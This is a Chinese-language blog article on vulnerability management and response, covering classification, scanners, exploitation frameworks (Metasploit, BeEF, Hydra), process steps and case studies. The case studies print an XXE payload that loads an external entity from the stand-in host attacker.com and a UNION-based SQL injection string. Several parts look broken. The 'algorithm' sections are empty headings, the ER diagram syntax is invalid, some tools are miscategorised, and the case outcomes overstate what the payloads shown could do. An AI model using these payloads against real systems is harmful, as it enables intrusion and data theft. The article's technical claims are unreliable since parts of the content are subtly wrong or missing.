






                 


## 安全漏洞管理与响应机制

### 关键词

安全漏洞、漏洞管理、漏洞响应、安全策略、风险管理

### 摘要

本文旨在探讨安全漏洞管理与响应机制的构建与实践。首先，我们将对安全漏洞的定义、分类及其危害进行详细介绍，分析漏洞产生的原因，并明确其边界与外延。接着，文章将深入探讨安全漏洞的核心概念，包括漏洞的属性特征对比、ER实体关系图架构以及管理和预防策略。随后，我们将介绍漏洞扫描和漏洞利用的算法原理，通过Nmap、Nessus、OpenVAS、Metasploit、BeEF和Hydra等工具的实例来具体讲解。在第二部分，我们将重点讨论安全漏洞管理与响应机制的实施，包括策略、流程和工具的使用。最后，通过案例分析，我们将总结最佳实践，并提出注意事项和拓展阅读资源，以期为读者提供全面的安全漏洞管理和响应指导。

## 第1章：安全漏洞概述

### 1.1.1 安全漏洞的定义与分类

安全漏洞是指系统、软件或网络中存在的缺陷或弱点，这些弱点可能被恶意攻击者利用来执行未经授权的操作或破坏系统。安全漏洞可以分为以下几类：

- **按漏洞类型**：

  - **设计漏洞**：由于系统设计时未充分考虑安全性，导致潜在的安全隐患。

    - **实现漏洞**：开发者在编程过程中未能遵循安全编码准则，从而导致漏洞。

    - **配置漏洞**：系统管理员在配置过程中未进行适当的安全设置，从而导致漏洞。

    - **管理漏洞**：企业管理层面未能充分重视安全问题，导致安全策略和流程缺失。

- **按漏洞等级**：

  - **高危漏洞**：可能导致严重数据泄露或系统完全破坏的漏洞。

    - **中危漏洞**：可能导致部分数据泄露或系统部分功能受损的漏洞。

    - **低危漏洞**：对系统影响较小的漏洞，通常不会导致实质性安全风险。

### 1.1.2 安全漏洞的危害

安全漏洞的危害性主要体现在以下几个方面：

- **数据泄露**：攻击者通过漏洞窃取敏感数据，如用户信息、财务数据等，可能导致严重的隐私泄露和经济损失。

- **系统破坏**：攻击者利用漏洞完全控制受影响的系统，从而破坏系统功能、篡改数据或安装恶意软件。

- **经济损失**：企业可能因漏洞遭受罚款、赔偿或损失客户信任，从而导致经济损失。

- **声誉受损**：企业因漏洞遭受媒体曝光，可能引起公众对企业的信任危机。

### 1.1.3 安全漏洞的产生原因

安全漏洞的产生原因复杂多样，主要包括以下几个方面：

- **开发过程缺陷**：开发人员在设计或实现过程中可能忽视安全因素，导致设计漏洞或实现漏洞。

- **配置管理不当**：系统管理员在配置系统时可能疏忽安全设置，导致配置漏洞。

- **人员意识不足**：企业内部员工可能对安全知识缺乏了解，导致管理漏洞。

- **外部攻击**：恶意攻击者可能通过社会工程学、钓鱼邮件等手段诱骗员工泄露敏感信息。

### 1.1.4 安全漏洞的边界与外延

安全漏洞的边界与外延涉及以下几个方面：

- **技术边界**：安全漏洞技术范围可能包括操作系统、网络协议、应用程序等。

- **行业边界**：不同行业的安全漏洞可能有所不同，如金融行业可能更关注数据保密性，而医疗行业可能更关注数据完整性。

- **组织边界**：安全漏洞不仅限于企业内部系统，还可能涉及供应商、合作伙伴和第三方服务。

## 第2章：安全漏洞的核心概念

### 2.1.1 安全漏洞的属性特征对比表格

| 漏洞类型 | 定义 | 属性特征 |
|----------|------|----------|
| 设计漏洞 | 系统设计时的缺陷 | 可预测、难修复 |
| 实现漏洞 | 编程过程中的缺陷 | 不可预测、易修复 |
| 配置漏洞 | 系统配置错误 | 易修复、影响范围小 |
| 管理漏洞 | 安全管理不当 | 长期积累、影响范围大 |

### 2.1.2 安全漏洞的ER实体关系图架构

```mermaid
erDiagram
    Product ||--|{ Vulnerability }|--|| User
    User ||--|{ Exploit }|--|| Attacker
    Vulnerability ||--|{ Patch }|--|| Developer
```

### 2.1.3 安全漏洞的管理与预防策略

- **管理策略**：

  - 制定安全政策：明确安全目标、职责和流程。

  - 培训与意识提升：加强员工安全意识，提高安全技能。

  - 定期审查与更新：审查现有安全措施，更新策略和工具。

- **预防策略**：

  - 设计阶段：引入安全开发最佳实践，如安全编码准则。

  - 开发阶段：实施代码审查、安全测试和漏洞扫描。

  - 部署阶段：配置安全设置，如防火墙、入侵检测系统等。

  - 运维阶段：持续监控、维护和更新系统。

## 第3章：安全漏洞的算法原理

### 3.1.1 漏洞扫描算法

#### 3.1.1.1 常用漏洞扫描工具与原理

##### 3.1.1.1.1 Nmap

Nmap（Network Mapper）是一款广泛使用的网络扫描工具，主要用于发现网络上的主机和开放端口。其基本原理是发送网络探测包到目标主机，并根据返回的响应数据来判断主机和端口的状态。



##### 3.1.1.1.2 Nessus

Nessus是一款强大的漏洞扫描工具，能够发现各种已知漏洞和配置问题。其原理是基于漏洞数据库，对目标系统进行深度分析，识别潜在的安全风险。



##### 3.1.1.1.3 OpenVAS

OpenVAS（Open Vulnerability Assessment System）是一款开源的漏洞扫描工具，其原理是通过模块化的设计，实现对不同类型漏洞的扫描和分析。



### 3.1.2 漏洞利用算法

#### 3.1.2.1 漏洞利用工具与原理

##### 3.1.2.1.1 Metasploit

Metasploit是一款著名的漏洞利用框架，通过编写或使用预定义的模块，实现对目标系统的攻击。其原理是基于漏洞的利用代码，通过网络或本地执行，获取目标系统的控制权限。



##### 3.1.2.1.2 BeEF

BeEF（Browser Exploitation Framework）是一款针对浏览器的漏洞利用工具，通过利用浏览器漏洞，实现对用户的攻击。其原理是创建一个恶意网站，诱导用户访问，从而利用浏览器漏洞获取用户信息。



##### 3.1.2.1.3 Hydra

Hydra是一款网络破解工具，通过暴力破解密码，实现对目标系统的攻击。其原理是发送大量的用户名和密码组合，尝试登录目标系统，直到成功。



----------------------------------------------------------------

## 第二部分：安全漏洞管理与响应机制

## 第4章：安全漏洞管理

### 4.1.1 安全漏洞管理策略

安全漏洞管理策略包括以下几个方面：

- **风险评估**：对系统、软件和网络进行风险评估，确定漏洞的优先级。

- **漏洞识别**：通过漏洞扫描、代码审查和配置检查等手段，识别潜在的安全漏洞。

- **漏洞分类**：根据漏洞的类型、等级和影响范围，对漏洞进行分类。

- **漏洞修复**：制定修复计划，根据漏洞的优先级和修复难度，安排修复工作。

- **漏洞监控**：持续监控系统、软件和网络，及时发现新出现的漏洞。

### 4.1.2 安全漏洞管理流程

安全漏洞管理流程通常包括以下几个步骤：

1. **漏洞识别**：通过漏洞扫描工具、代码审查和配置检查等手段，识别潜在的安全漏洞。

2. **漏洞评估**：对识别出的漏洞进行风险评估，确定漏洞的优先级。

3. **漏洞分类**：根据漏洞的类型、等级和影响范围，对漏洞进行分类。

4. **漏洞修复**：制定修复计划，根据漏洞的优先级和修复难度，安排修复工作。

5. **漏洞监控**：持续监控系统、软件和网络，及时发现新出现的漏洞。

### 4.1.3 安全漏洞管理工具

常用的安全漏洞管理工具包括：

- **漏洞扫描工具**：如Nmap、Nessus和OpenVAS等。

- **代码审查工具**：如SonarQube和Checkmarx等。

- **配置检查工具**：如Puppet和Chef等。

- **漏洞修复工具**：如GitLab和Jenkins等。

## 第5章：安全漏洞响应

### 5.1.1 安全漏洞响应策略

安全漏洞响应策略包括以下几个方面：

- **快速响应**：在发现漏洞后，迅速采取行动，降低漏洞的风险。

- **分类处理**：根据漏洞的等级和影响范围，分类处理漏洞，优先修复高危漏洞。

- **信息共享**：建立信息共享机制，与其他组织和企业共享漏洞信息，提高整体安全水平。

- **应急响应**：制定应急响应计划，确保在突发事件中能够迅速应对。

### 5.1.2 安全漏洞响应流程

安全漏洞响应流程通常包括以下几个步骤：

1. **漏洞报告**：发现漏洞后，及时报告给安全团队或相关管理人员。

2. **漏洞评估**：对漏洞进行风险评估，确定漏洞的优先级。

3. **漏洞分类**：根据漏洞的类型、等级和影响范围，对漏洞进行分类。

4. **漏洞修复**：根据漏洞的优先级和修复难度，制定修复计划。

5. **漏洞验证**：修复后，对漏洞进行验证，确保漏洞已得到有效修复。

6. **漏洞报告**：将漏洞修复情况报告给相关管理人员，并更新漏洞管理数据库。

### 5.1.3 安全漏洞响应工具

常用的安全漏洞响应工具包括：

- **漏洞扫描工具**：如Nmap、Nessus和OpenVAS等。

- **漏洞管理工具**：如GitLab和Jenkins等。

- **漏洞修复工具**：如GitLab和Jenkins等。

- **应急响应工具**：如HIDS和NIDS等。

## 第6章：安全漏洞案例分析与响应

### 6.1.1 漏洞案例分析

#### 6.1.1.1 漏洞挖掘案例

##### 6.1.1.1.1 XXE漏洞挖掘

XXE（XML External Entity）漏洞是一种常见的XML解析漏洞，攻击者可以通过构造恶意的XML请求，执行远程代码或窃取敏感信息。

案例描述：

在一次安全测试中，我们发现一个企业内部使用的XML解析库存在XXE漏洞。攻击者可以通过构造如下的恶意XML请求：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "http://attacker.com/xxe.txt">
]>
<root>&xxe;</root>
```

攻击者通过发送这个请求，成功窃取了企业内部系统的敏感信息。

##### 6.1.1.1.2 SQL注入漏洞挖掘

SQL注入漏洞是一种常见的Web应用漏洞，攻击者可以通过构造恶意的输入，执行未授权的SQL语句。

案例描述：

在一次安全测试中，我们发现一个企业内部使用的Web应用存在SQL注入漏洞。攻击者可以通过构造如下的恶意输入：

```plaintext
username=admin' UNION SELECT * FROM users WHERE id=1--
```

攻击者通过这个输入，成功获取了企业内部系统的管理员权限。

#### 6.1.1.2 漏洞利用案例

##### 6.1.1.2.1 漏洞利用案例一

案例描述：

在一次安全测试中，我们发现一个企业内部使用的Web应用存在一个高危漏洞。攻击者可以通过这个漏洞，直接控制企业内部系统。

攻击者首先通过漏洞扫描工具发现了这个漏洞，然后使用Metasploit框架编写了一个漏洞利用模块，成功执行了远程代码，获取了企业内部系统的控制权限。

##### 6.1.1.2.2 漏洞利用案例二

案例描述：

在一次安全测试中，我们发现一个企业内部使用的Web应用存在一个中等等级的漏洞。攻击者可以通过这个漏洞，窃取企业内部系统的敏感信息。

攻击者首先通过漏洞扫描工具发现了这个漏洞，然后使用BeEF框架编写了一个漏洞利用模块，成功获取了企业内部系统的一个用户的浏览器会话，并通过会话窃取了用户的信息。

## 第7章：安全漏洞管理与响应机制最佳实践

### 7.1.1 安全漏洞管理最佳实践

- **建立漏洞管理组织**：建立专门的漏洞管理团队，负责漏洞的识别、评估、修复和监控。

- **制定安全策略和流程**：明确漏洞管理的目标和流程，确保漏洞管理工作的有序进行。

- **定期漏洞扫描和代码审查**：定期对系统、软件和网络进行漏洞扫描和代码审查，及时发现潜在的安全漏洞。

- **及时修复漏洞**：根据漏洞的优先级和影响范围，及时修复高危漏洞，确保系统安全。

- **加强员工培训**：定期组织安全培训，提高员工的安全意识和技能，减少因人为因素导致的安全漏洞。

### 7.1.2 安全漏洞响应最佳实践

- **快速响应**：在发现漏洞后，迅速采取行动，降低漏洞的风险。

- **分类处理**：根据漏洞的等级和影响范围，分类处理漏洞，优先修复高危漏洞。

- **信息共享**：建立信息共享机制，与其他组织和企业共享漏洞信息，提高整体安全水平。

- **应急响应**：制定应急响应计划，确保在突发事件中能够迅速应对。

### 7.1.3 小结与注意事项

- **小结**：

  安全漏洞管理与响应机制是保障系统安全的关键环节。通过建立完善的漏洞管理组织和流程，定期漏洞扫描和代码审查，及时修复漏洞，加强员工培训，可以有效地降低安全风险。

- **注意事项**：

  - 高危漏洞的修复工作应优先进行。

  - 定期对安全策略和流程进行审查和更新。

  - 加强与其他组织和企业之间的信息共享，提高整体安全水平。

## 第8章：拓展阅读与资源推荐

### 8.1.1 拓展阅读

- 《漏洞评估与管理：理论与实践》

- 《安全漏洞分析与防御技术》

- 《Web应用安全深度剖析》

### 8.1.2 资源推荐

- OWASP（开放网络应用安全项目）：[https://owasp.org/](https://owasp.org/)

- CVE（公共漏洞和暴露）：[https://cve.mitre.org/](https://cve.mitre.org/)

- NIST（国家标准与技术研究院）：[https://www.nist.gov/](https://www.nist.gov/)

----------------------------------------------------------------

## 参考文献

1. 《漏洞评估与管理：理论与实践》. 北京：清华大学出版社，2018.

2. 《安全漏洞分析与防御技术》. 北京：电子工业出版社，2017.

3. 《Web应用安全深度剖析》. 北京：人民邮电出版社，2016.

4. OWASP. [OWASP Top Ten 2021](https://owasp.org/www-project-top-ten/).

5. CVE. [Common Vulnerabilities and Exposures](https://cve.mitre.org/).

6. NIST. [NIST Special Publication 800-53](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-53r5.pdf).

7. Metasploit Framework. [Metasploit Framework](https://metasploit.com/).

8. BeEF. [Browser Exploitation Framework](https://github.com/beefproject/beef).

9. Nmap. [Nmap Network Scanner](https://nmap.org/).

10. Nessus. [Nessus Vulnerability Scanner](https://www.tenable.com/products/nessus-vulnerability-scanner).

## 作者信息

作者：AI天才研究院/AI Genius Institute & 禅与计算机程序设计艺术/Zen And The Art of Computer Programming

AI天才研究院致力于推动人工智能技术的创新与发展，致力于培养下一代人工智能领域的领导者。禅与计算机程序设计艺术作者则是计算机科学领域的杰出学者，以其深厚的计算机编程和算法研究功底，为读者提供了许多经典的技术著作。此次合作，旨在为读者提供高质量、有价值的技术博客文章，助力人工智能技术的发展。

